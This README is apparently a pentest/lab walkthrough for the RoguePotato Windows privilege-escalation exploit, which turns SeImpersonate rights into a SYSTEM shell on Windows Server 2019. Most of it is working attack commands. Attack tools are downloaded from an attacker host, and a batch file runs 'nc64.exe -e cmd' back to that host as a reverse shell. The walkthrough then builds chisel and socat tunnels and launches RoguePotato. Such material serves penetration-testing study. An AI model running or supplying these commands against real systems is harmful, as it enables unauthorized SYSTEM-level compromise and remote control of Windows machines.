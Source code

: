 # Rogue-Potato

[JuicyPotato](https://k4sth4.github.io/Juicy-Potato/) abused SeImpersonate or SeAssignPrimaryToken privileges to get execution as SYSTEM. 
But it fails against Windows Server 2019. RoguePotato can be use to abuse abused SeImpersonate Priviledge, if the target OS is Windows Server 2019.

# Exploitation

All we need is [RoguePotato.exe](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe) , [Compatible Chisel for Win and Linux](https://github.com/k4sth4/Rogue-Potato) and [nc binary](https://github.com/k4sth4/Rogue-Potato).

### Upload all these on target machine

```markdown
powershell -c wget http://10.10.x.x:8080/RoguePotato.exe -outfile RoguePotato.exe
powershell -c wget http://10.10.x.x:8080/chiselx64.exe -outfile chisel.exe
powershell -c wget http://10.10.x.x:8080/nc64.exe -outfile nc64.exe
```

### Create a reverse shell on target machine and set chisel

```markdown
echo c:\Windows\Temp\nc64.exe -e cmd 10.10.x.x 1234 > rev.bat
```

### Now run chisel on Attacker VM.
```markdown
./chisel server -p 8000 --reverse
```

### Now run chisle.exe on Traget Machine
```markdown
.\chisel.exe client 10.10.x.x:8000 R:135:localhost:9999
```
Note: 10.10.x.x is the Attacker IP.

We've open ports using chisel, now we can do the attack using RoguePotato.exe.

First we need to get another shell of the target user. As we can see that this shell is busy on port forwarding.
After gettng shell-2 we can set our listner on port that we've defined on rev.bat.

nc -nvlp 1234

## Getting Reverse Shell
### Now on shell-2 we can execute payload.

```markdown
.\RoguePotato.exe -r 10.10.x.x -l 9999 -e c:\Windows\Temp\rev.bat
```

if you're using Powershell.
```markdown
.\RoguePotato.exe -r 10.10.x.x -l 9999 -e "powershell c:\Windows\Temp\shell.ps1"
```

## Another Way Using socat

We can also use socat to port forward 135.
First set chisel on Kali vm as mentioned above.
Then on Target machine run chisel as:
```markdown
.\chisel.exe client 10.10.x.x:8000 R:9999:localhost:9999
```
Then set socat on Attacker VM (kali vm)
```markdown
socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999
```
Now get another shell and run RoguePotato.exe as mentioned above you will get reverse shell as SYSTEM.

